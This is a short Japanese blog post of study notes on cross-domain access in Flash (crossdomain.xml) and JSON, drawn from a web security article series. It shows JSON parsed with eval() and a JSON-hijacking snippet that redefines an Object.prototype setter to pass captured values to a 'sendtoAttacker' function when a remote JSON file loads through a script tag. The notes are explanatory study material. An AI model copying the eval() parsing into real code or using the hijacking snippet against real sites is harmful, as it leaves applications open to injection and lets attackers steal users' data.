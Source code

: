 ```yaml
---
layout: post
title: 'Flash，JSONでのクロスドメインアクセス勉強メモ'
date: 2009-11-24
wordpress_id: 320
permalink: /blog/memo-of-flash-json-cross-domain
comments: true
categories: [nil]
---
```

gihyoサイトの「ここが危ない！Web2.0のセキュリティ」連載の<a href="http://gihyo.jp/dev/serial/01/web20sec/0004" target="_blank">第4回：「Flash，JSONでのクロスドメインアクセス」の</a>勉強メモです。

## Flashのクロスドメインアクセス
### 動作原理
データ提供側で認証のファイルを設置するだけです。
ファイル名は「crossdomain.xml」で、これが例なのかこう書かなければならないのかは明確に書いてません。

```xml
<cross-domain-policy>
	<allow-access-from domain="www.securesky-tech.com" />
</cross-domain-policy>
```

## JSONでも実はクロスドメインアクセスが可能
### 動作原理
eval()関数でデータを評価するだけで使用可能になる

```js
var obj = eval("("+req.responseText+")");
```

### クロスドメインの実現
setterメソッドをサポートしているブラウザ（FirefoxやSafari 3等）では，setterメソッドを再定義することによって，JSONもSCRIPTタグで呼び出して使うことが可能になる。

```html
<html>
	<script>
		Object.prototype.__defineSetter__('name', function(x){sendtoAttacker(x);});
	</script>
	<script src="http://www.securesky-tech.com/object.dat">
	</script>
</html>
```
